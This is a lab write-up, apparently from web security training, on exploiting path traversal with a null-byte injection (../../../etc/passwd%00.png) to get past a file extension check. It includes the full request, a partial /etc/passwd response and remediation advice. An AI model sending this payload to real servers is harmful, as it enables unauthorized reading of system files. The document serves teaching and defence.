

## Lab: File Path Traversal – Null Byte Bypass for File Extension Validation

### Objective
Retrieve the contents of the `/etc/passwd` file by exploiting a path traversal vulnerability where the application validates the file extension but allows null byte injection.

### Vulnerability Description
The application validates that the supplied filename ends with an expected file extension (e.g., `.png`, `.jpg`). However, it uses outdated or insecure filesystem functions (like C-based file operations) that treat null bytes (`%00`) as string terminators. This allows an attacker to bypass the extension check while still traversing to sensitive files.

### Exploitation Steps

1. **Intercept a request** for a product image using Burp Suite.
   - Example endpoint:
     ```
     GET /image?filename=image1.jpg
     ```

2. **Modify the `filename` parameter** with the following payload:
   ```
   ../../../etc/passwd%00.png
   ```

3. **Complete request**:
   ```
   GET /image?filename=../../../etc/passwd%00.png
   ```

### Bypass Explanation

| Step | Processing Stage | Value |
|------|----------------|-------|
| 1 | Extension validation check | Filename ends with `.png` ✓ |
| 2 | Application passes to filesystem function | `../../../etc/passwd%00.png` |
| 3 | Null byte interpreted as string terminator | `../../../etc/passwd` |
| 4 | Filesystem resolves path | `/etc/passwd` is read |
| 5 | `.png` extension is ignored | File content returned regardless |

### Result
The response contains the contents of the `/etc/passwd` file, confirming successful exploitation.

### Sample Response (partial)
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
...
```

### Why This Works

- **Legacy functions** like `fopen()`, `file_get_contents()` in some contexts, or C system calls treat null bytes (`\0`) as the end of a string.
- **Modern languages** (Python, Java, modern PHP) are generally immune to null byte injection.
- The vulnerability exists when:
  - The application validates extension in one step (sees `.png`)
  - The underlying filesystem call uses a null-terminated string function

### Remediation Recommendations
- **Use secure filesystem functions** that don't rely on null termination.
- **Validate after null byte stripping** – reject any input containing `%00` or null characters.
- **Use whitelist mapping** – store files with random names, map to original filenames in database.
- **Reject non-image content** – validate MIME type and file signature (magic bytes), not just extension.
- **Update legacy libraries** that may be vulnerable to null byte injection.

### Tools Used
- Burp Suite (Proxy & Repeater)
